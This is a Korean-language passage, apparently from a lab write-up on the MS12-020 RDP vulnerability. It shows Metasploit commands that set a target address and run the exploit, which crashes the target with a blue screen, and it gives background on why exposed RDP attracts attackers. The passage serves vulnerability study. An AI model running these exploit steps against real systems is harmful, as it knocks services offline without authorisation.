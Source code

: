 ## 모듈 옵션 설정

![](./image14.png)



``` python
set RHOST 192.168.111.146

show options
```

## 공격

대상 서버를 대상으로 MS12-020 취약점 모듈을 실행한 결과 분석된 결과와
동일하게 BSOD가 발생한 것을 확인할 수 있다.

![](./image15.png)



``` python
exploit  \#run 명령을 사용해도 된다.
```

![](./image16.png)



# 분석 개요

## 취약점 분석 배경

외부망에 노출되어 있는 RDP 프로토콜은 해킹을 통해 시스템을 완전히 제어가
가능하기 때문에 대상 목록상 우선이 되곤 한다. 또한 공격자가 정상적인
프로토콜을 통해 시스템에 접속을 하기 때문에 보안 관리자가 악의적인
활동을 탐지하기 어렵다.
